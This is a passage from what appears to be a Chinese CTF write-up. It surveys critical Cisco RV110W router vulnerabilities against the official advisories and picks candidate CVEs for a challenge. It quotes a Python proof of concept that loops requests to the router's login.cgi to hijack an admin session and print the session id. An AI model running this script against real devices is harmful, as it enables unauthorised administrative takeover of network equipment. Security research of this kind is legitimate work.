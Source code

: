点进去看思科官方的通告可以看到，这些都是在1.2.2.8版本才被修的，总结下来就是：

- 3144：绕过前台认证，到后后台命令执行
- 3150：要求有经过认证的用户登录过的文件下载
- 3330：telnet密码
- 3331、3323：前台RCE

也可以在Cisco Security的官方站点上搜索rv110w并筛选出严重漏洞：

[https://tools.cisco.com/security/center/publicationListing.x?product=Cisco&keyword=rv110w&impact=critical&sort=-day_sir#~Vulnerabilities](https://tools.cisco.com/security/center/publicationListing.x?product=Cisco&keyword=rv110w&impact=critical&sort=-day_sir#~Vulnerabilities)

![image](https://xuanxuanblingbling.github.io/assets/pic/cisco/ciscosecurity.png)

和上面我们筛选出来的重合的是：3330、3323、3331、3144这四个洞，排除了3150这个看起来的确鸡肋的洞。继续查找资料找到对于3144的利用：[Breaking Cisco RV110W, RV130, RV130W, and RV215W. Again.](https://quentinkaiser.be/exploitdev/2020/07/14/breaking-cisco-rv-again/)

```python
#!/usr/bin/env python
import requests
from time import sleep
import re
payload = {
    "submit_button":"login",
    "submit_type":"continue",
    "gui_action":"gozila_cgi",
}
while True:
    try:
        resp = requests.post(
            "https://192.168.1.1/login.cgi",
            data=payload,
            verify=False
        )
        if "Login Page" in resp.content:
            sleep(1)
        else:
            sessionid = re.findall(r"session_id=([^\"]+)", resp.content)[0]
            print("[+] Successfully hijacked admin session. Session id is
            {}".format(sessionid))
            break
    except KeyboardInterrupt as e:
        break
```

所以3144在有账户正常登录的前提下，与赛题要求不符。故3150也要求不符。所以有可能用上的漏洞是：

- CVE-2020-3331
- CVE-2020-3323
- CVE-2020-3330

#### CVE-2019-1663（无效）
